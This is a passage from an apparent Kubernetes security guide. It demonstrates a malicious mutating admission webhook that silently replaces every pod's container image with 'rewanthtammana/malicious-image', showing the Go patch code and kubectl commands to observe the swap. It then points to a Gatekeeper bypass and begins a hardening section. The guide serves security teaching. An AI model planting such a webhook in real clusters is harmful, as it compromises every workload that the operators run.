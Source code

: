 ![mutating-webhook-status-check.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1628433436353/yHUvUWugR.png?auto=compress,format&format=webp)

Then deploy a new pod:

```bash
kubectl run nginx --image nginx
kubectl get po -w
```

When you can see `ErrImagePull` error, check the image name with either of the queries:

```bash
kubectl get po nginx -o=jsonpath='{.spec.containers[].image}{"\n"}'
kubectl describe po nginx | grep "Image: "
```

![malicious-admission-controller.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1628433512073/leFXtgSzm.png?auto=compress,format&format=webp)

As you can see in the above image, we tried running image `nginx` but the final executed image is `rewanthtammana/malicious-image`. What just happened!!?

#### Technicalities

The `./deploy.sh` script establishes a mutating webhook admission controller, which modifies requests to the Kubernetes API as specified in its configuration lines, influencing the outcomes observed:

```
patches = append(patches, patchOperation{
    Op:    "replace",
    Path:  "/spec/containers/0/image",
    Value: "rewanthtammana/malicious-image",
})
```

The above snippet replaces the first container image in every pod with `rewanthtammana/malicious-image`.

## OPA Gatekeeper bypass

{{#ref}}
../kubernetes-opa-gatekeeper/kubernetes-opa-gatekeeper-bypass.md
{{#endref}}

## Best Practices

### **Disabling Automount of Service Account Tokens**

- **Pods and Service Accounts**: By default, pods mount a service account token. To enhance security, Kubernetes allows the disabling of this automount feature.
- **How to Apply**: Set `automountServiceAccountToken: false` in the configuration of service accounts or pods starting from Kubernetes version 1.6.

### **Restrictive User Assignment in RoleBindings/ClusterRoleBindings**

